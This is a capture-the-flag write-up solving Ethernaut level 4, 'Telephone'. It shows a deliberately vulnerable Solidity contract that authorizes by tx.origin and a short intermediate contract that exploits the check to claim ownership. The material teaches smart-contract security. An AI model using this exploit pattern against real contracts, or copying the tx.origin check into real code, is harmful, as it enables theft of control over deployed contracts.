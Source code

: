 # Level 4: Telephone

This is the level 4 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

`player` has to claim this contract's ownership.

Simple one. We'll make an intermediate contract (named `IntermediateContract`) with the same method `changeOwner` (or anything else -- name doesn't matter) on Remix. `IntermediateContract`'s `changeOwner` will simply call `Telephone` contract's `changeOwner`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
  function changeOwner(address _owner) external;
}

contract IntermediateContract {
  function changeOwner(address _addr) public {
    ITelephone(_addr).changeOwner(msg.sender);
  }
}
```

`player` will call `IntermediateContract` contract's `changeOwner`, which in turn will call `Telephone`'s `changeOwner` with `msg.sender` (which is `player`) as param. In that case `tx.origin` is `player` and `msg.sender` is `IntermediateContract`'s address. And since now `tx.origin` != `msg.sender`, `player` has claimed the ownership.

Done.